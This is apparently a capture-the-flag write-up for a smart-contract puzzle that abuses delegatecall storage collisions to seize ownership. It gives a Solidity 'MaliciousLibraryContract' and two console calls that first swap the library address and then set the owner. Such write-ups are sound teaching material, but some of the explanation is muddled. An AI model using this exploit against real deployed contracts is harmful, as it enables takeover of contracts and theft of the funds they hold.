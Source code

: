 # Answer

Goal: Claim ownership of the contract instance.

## 1. Altering the library address

The contract is misusing delegateCall and opens itself up to a dangeours exploit. We are able to change the stored `timeZone1Library` address by calling either `setFirstTime` or `setSecondTime` with the new address.

The idea is to replace the `timeZone1Library` with our own implementation:

```solidity
contract MaliciousLibraryContract {
    uint256 slot1;
    uint256 slot2;
    address owner;

    function setTime(uint256 newOwner) public {
        owner = address(uint160(newOwner));
    }
}
```

Since the original libraries we're already compromised, we only need to shift the storage slot we want changed. And that of course is the owner.

After that we call the `setFirstTime` with the deployed MaliciousLibraryContract address:

```js
await contract.setFirstTime('<malicious library address>')
```

## 2. Altering the library address

Now that the original library is replaced we can call the same function but now we supply our own wallet address.

```js
await contract.setFirstTime(player)
```
